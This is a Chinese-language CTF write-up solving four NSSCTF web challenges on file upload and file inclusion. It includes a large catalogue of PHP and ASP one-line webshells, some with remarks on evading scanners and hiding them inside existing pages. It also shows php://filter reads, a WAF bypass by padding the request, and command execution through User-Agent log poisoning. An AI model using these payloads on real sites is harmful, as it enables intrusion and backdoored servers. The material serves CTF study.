

# 2025-01-22题单

## 1.今日主题关键词

进阶，文件上传，文件包含，一句话木马，php伪协议

## 2.今日题目

- [x] 10金币 [SWPUCTF 2021 新生赛]easyupload1.0 https://www.nssctf.cn/problem/388
- [x] 20金币 [鹏城杯 2022]简单包含 https://www.nssctf.cn/problem/2422
- [x] 30金币 [FSCTF 2023]是兄弟，就来传你の🐎！https://www.nssctf.cn/problem/4561
- [x] 20金币 [HNCTF 2022 WEEK2]easy_include https://www.nssctf.cn/problem/2948

## 3.题解

### 3.1 [SWPUCTF 2021 新生赛]easyupload1.0

#### 题目描述：

无描述

#### 题解

1. 打开题目，发现是一个文件上传的题目，下面是一些一句话木马

```php
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用
```

2. 上传一句话木马,但是这里需要上传的是.jpg文件，因为根据提示和抓包的内容可以推测这里有文件名的限制

```php
<?php @eval($_POST['shell']);?>
```


3. 但是由于jpg文件并不是我们想要的，因此我们需要在抓包以后修改内容并重新发送，以确保我们的php文件能够正确上传


4. 此时我们就能知道我们的php文件已经上传成功了，接下来我们需要用刚刚上传的木马进行连接

5. 首先我们打开蚁剑，添加数据，接着输入网址和连接密码


6. 接着我们就能成功连接到我们的蚁剑，并且成功进入到后台


7. 最后我们在后台中找到flag，并成功获取


8. 但是现实flag错误，上网搜索发现flag应该在phpinfo中......所以我们直接把显示phpinfo的命令加到要上传的php文件中，然后重新上传

```php
<?php phpinfo(); ?>
```

9. 接着我们打开http://node4.anna.nssctf.cn:28023/upload/shell.php，搜索得到flag



#### 答案

`NSSCTF{9332bbc3-45eb-4bc6-b1b8-33b4e095af28}`

### 3.2 [鹏城杯 2022]简单包含

#### 题目描述：

无描述

#### 题解

1. 打开题目，发现是一个文件包含的题目，并且给出了一个文件包含的提示

```php
<?php 
highlight_file(__FILE__);
include($_POST["flag"]);
//flag in /var/www/html/flag.php;
```

2. 根据提示，我们知道flag在/var/www/html/flag.php中，因此我们可以直接包含flag.php文件

```php
<?php include '/var/www/html/flag.php';?>
```

- 这个代码的意思是服务器会直接 显示（高亮）该 PHP 文件的源代码，供访问者查看。
- 服务器会包含（include）$_POST["flag"] 指定的文件，即用户可以通过 POST 传入的 flag 参数来包含服务器上的文件。
- 也就是说通过 include($_POST["flag"]) 传递 /var/www/html/flag.php，让服务器包含它，并在页面上输出。

3. 我们打开Hackbar，输入图中内容得到一个新的信息。


4. 现在我们已知有防火墙，因此思考怎么进行绕过，首先我们直接查看网站源代码

```php
flag=php://filter/resource=index.php
```

- 这是直接进行读取我们发现为空，因此进行base64加密后读取

```php
flag=php://filter/read=convert.base64-encode/resource=index.php
```


5. 接着我们进行base64解码

```php
<?php

$path = $_POST["flag"];

if (strlen(file_get_contents('php://input')) < 800 && preg_match('/flag/', $path)) {
    echo 'nssctf waf!';
} else {
    @include($path);
}
?>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php&nbsp;<br />highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />include(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">"flag"</span><span style="color: #007700">]);<br /></span><span style="color: #FF8000">//flag&nbsp;in&nbsp;/var/www/html/flag.php;</span>
</span>
</code><br />
```

6. 这个规则很简单，我们只要将长度扩充超过800，并且包含flag，就能成功绕过

```php
1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&flag=php://filter/convert.base64-encode/resource=flag.php
```

- 不能太长，太长也会让服务器拒绝响应


7. 然后我们得到一个base64编码后的字符串，接着我们进行base64解码


#### 答案

`NSSCTF{a7e65e9b-1f6d-42f7-b91d-21db5b43e7fc}`

### 3.3 [FSCTF 2023]是兄弟，就来传你の🐎！

#### 题目描述：

你真的懂文件上传吗？

#### 题解

1. 我们首先尝试直接上传第一题的木马文件，发现有文件内容审核策略


2. 我们直接修改为php文件再次上传，依旧无效，但是输出有改变


3. 我们修改文件头再次上传，被发现我们是Hack了哈哈


4. 我们修改一下文件内容，怀疑是文件内容里有php或者eval函数导致的。因此我们先尝试去掉这些，改用一些简单的函数

```php
<? system('ls')>
```


5. 显示长度过长，从网上搜索题解知道使用php短标签，短标签不闭合也能执行

```php
BM<?=`tac /f*`;
```


- 注意，上传的文件的后缀名要为pht文件，不然无法在目录中显示

6. 我们成功上传以后，从upload开始访问目录最后得到flag


#### 答案

`NSSCTF{deab3a6e-8294-4564-b164-944dcef7a2ce}`

### 3.4 [HNCTF 2022 WEEK2]easy_include

#### 题目描述：

无描述

#### 题解：

1. 打开题目，发现是一个文件包含的题目，并且给出了一个文件包含的提示

```php
<?php
//WEB手要懂得搜索

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

2. 查看nginx相关信息

```php
?file=/etc/nginx/nginx.conf
?file=/var/log/nginx/access.log
```

3. 发现下述日志信息


4. 我们尝试进行ua头投毒

在ua头中添加

```php
User-Agent: <?php system('ls /'); ?>
```

接着进行发送，我们得到了flag文件的路径


5. 最后我们直接访问flag文件，得到flag

```php
User-Agent: <?php system('cat /ffflllaaaggg'); ?>
```


#### 答案

`NSSCTF{0ac65b24-348e-49dc-bda0-a0d5949fba22}`